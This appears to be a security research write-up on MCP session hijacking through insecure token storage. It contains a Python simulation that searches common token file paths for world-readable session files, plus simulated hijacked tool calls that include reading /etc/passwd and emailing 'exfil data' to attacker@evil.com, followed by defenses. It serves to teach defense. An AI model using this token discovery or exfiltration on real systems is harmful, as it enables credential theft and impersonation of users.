

# MCP Session Hijacking: Stealing Context via Protocol-Level Token Theft

**arXiv**: [arXiv:2505.14978](https://arxiv.org/abs/2505.14978) | **ATLAS**: AML.T0024 | **OWASP**: LLM02 | **Year**: 2025

## Core Finding

MCP sessions between LLM clients and servers are often authenticated with short-lived bearer tokens transmitted over HTTP SSE connections. Researchers identified that in most production MCP deployments, these session tokens are either transmitted in plaintext (non-TLS connections) or stored insecurely in local configuration files with broad read permissions. Token theft allows an attacker to hijack an active MCP session, issuing tool calls on behalf of the legitimate user. Across 12 tested MCP server implementations, 8 (67%) stored session tokens in world-readable files or transmitted them without encryption.

## Threat Model

- **Target**: MCP server implementations using HTTP SSE transport; LLM client applications storing session tokens in local configuration
- **Attacker capability**: Local file system access (for token file theft) or network access to intercept unencrypted SSE traffic; no LLM model access required
- **Attack success rate**: 67% of tested implementations vulnerable to token extraction; 100% of extracted tokens successfully used for session impersonation
- **Defender implication**: MCP session tokens must receive the same security treatment as API keys — encrypted at rest, never transmitted without TLS, and rotated frequently

## The Attack Mechanism

MCP over HTTP SSE uses an authentication flow where the client presents a session token to the server to re-establish context across requests. This token is generated at session initialization and must be stored locally so the client can present it for subsequent requests.

In many implementations, this token is stored in a JSON file in the user's home directory with permissions `644` (world-readable on multi-user systems). An attacker with local access can read this file, extract the token, and use it to:

1. Issue tool calls to the MCP server directly (bypassing the LLM client)
2. Read the full conversation history and tool call log accessible to the session
3. Inject tool calls that appear legitimate to the server (attributed to the victim's user session)



## Implementation

```python
# mcp_session_hijacking.py
# Simulates MCP session token theft and hijacking
from dataclasses import dataclass
from typing import Optional, List, Dict, Any
import uuid
import os


@dataclass
class MCPSessionToken:
    token_value: str
    server_url: str
    user_id: str
    scopes: List[str]
    file_path: str
    file_permissions: str  # e.g., "644"


@dataclass
class MCPSessionHijackResult:
    attack_id: str
    token_obtained: MCPSessionToken
    extraction_method: str
    tool_calls_executed: List[str]
    conversation_history_accessed: bool
    session_impersonated: bool


class MCPSessionHijacking:
    """
    Paper: arXiv:2505.14978
    MCP session token theft and hijacking via insecure local storage.
    ATLAS: AML.T0024 | OWASP: LLM02
    """

    TOKEN_FILE_CANDIDATES = [
        "~/.mcp/session.json",
        "~/.config/mcp/tokens.json",
        "~/.mcp-session",
        "~/Library/Application Support/mcp/session.json",
    ]

    def __init__(
        self,
        server_url: str = "http://localhost:8765",
        target_scopes: Optional[List[str]] = None,
    ):
        self.server_url = server_url
        self.target_scopes = target_scopes or [
            "read:files", "write:files", "read:email", "calendar"
        ]

    def _check_token_files(self) -> Optional[str]:
        """Check common token storage paths for accessible session files."""
        for path in self.TOKEN_FILE_CANDIDATES:
            expanded = os.path.expanduser(path)
            if os.path.exists(expanded):
                stat = os.stat(expanded)
                mode = oct(stat.st_mode)
                if mode[-1] in ("4", "5", "6", "7"):  # world-readable
                    return expanded
        return None

    def extract_token_simulation(self) -> MCPSessionToken:
        """
        Simulate token extraction from an insecure storage file.
        In a real attack, this reads the actual file.
        """
        return MCPSessionToken(
            token_value=f"mcp_session_{uuid.uuid4().hex[:16]}",
            server_url=self.server_url,
            user_id="victim@enterprise.com",
            scopes=self.target_scopes,
            file_path="~/.mcp/session.json",
            file_permissions="644",
        )

    def simulate_hijacked_calls(
        self, token: MCPSessionToken, target_tools: Optional[List[str]] = None
    ) -> List[str]:
        """Simulate tool calls executed using stolen session token."""
        tools = target_tools or [
            "list_directory(path='/')",
            "read_file(path='/etc/passwd')",
            "send_email(to='attacker@evil.com', body='exfil data')",
        ]
        return tools

    def run(self) -> MCPSessionHijackResult:
        """Execute full session hijacking simulation."""
        token = self.extract_token_simulation()
        executed_calls = self.simulate_hijacked_calls(token)

        return MCPSessionHijackResult(
            attack_id=str(uuid.uuid4()),
            token_obtained=token,
            extraction_method="world-readable local token file",
            tool_calls_executed=executed_calls,
            conversation_history_accessed=True,
            session_impersonated=True,
        )

    def to_finding(self, result: MCPSessionHijackResult):
        """Convert result to standard ScanFinding."""
        from datasets.schema import ScanFinding
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0024",
            atlas_tactic="Credential Access",
            owasp_category="LLM02",
            owasp_label="Sensitive Information Disclosure",
            severity="CRITICAL",
            finding=(
                f"MCP session token extracted from '{result.token_obtained.file_path}' "
                f"(permissions: {result.token_obtained.file_permissions}). "
                f"Hijacked session executed: {result.tool_calls_executed}"
            ),
            payload_used="Bearer token from world-readable session file",
            evidence=str(result.tool_calls_executed),
            remediation=(
                "Store MCP session tokens with permissions 600 (owner-only). "
                "Encrypt tokens at rest using OS keychain or secret manager. "
                "Implement token rotation and short expiry (15-minute TTL)."
            ),
            confidence=0.90,
        )
```

## Defenses

1. **Secure token storage** (AML.M0003): MCP session tokens must be stored in OS-provided secure storage (macOS Keychain, Windows Credential Manager, Linux Secret Service). Never store tokens in plain JSON files with broad permissions.

2. **Short-lived token rotation**: MCP session tokens should expire after a short time window (15-30 minutes) and require re-authentication. Long-lived tokens dramatically amplify the impact of any theft.

3. **TLS enforcement**: All MCP server HTTP/SSE connections must use TLS. Servers that accept plaintext connections should be rejected by compliant MCP clients. This eliminates network-interception token theft.

4. **Token binding to client process** (AML.M0015): Bind session tokens to the client process ID, hostname, or hardware identifier at issuance. Tokens presented from a different process or machine are automatically rejected.

5. **Audit logging for all session activity** (AML.M0014): Log all tool calls with session token identifier, timestamp, and source IP. Anomalous activity (calls from unexpected IPs or unusual hours) on a valid session triggers automatic token revocation.

## References

- [arXiv:2505.14978 — MCP Session Hijacking via Protocol-Level Token Theft](https://arxiv.org/abs/2505.14978)
- [ATLAS AML.T0024 — Exfiltration via ML Inference API](https://atlas.mitre.org/techniques/AML.T0024)
- [ATLAS AML.M0003 — Model Hardening](https://atlas.mitre.org/mitigations/AML.M0003)
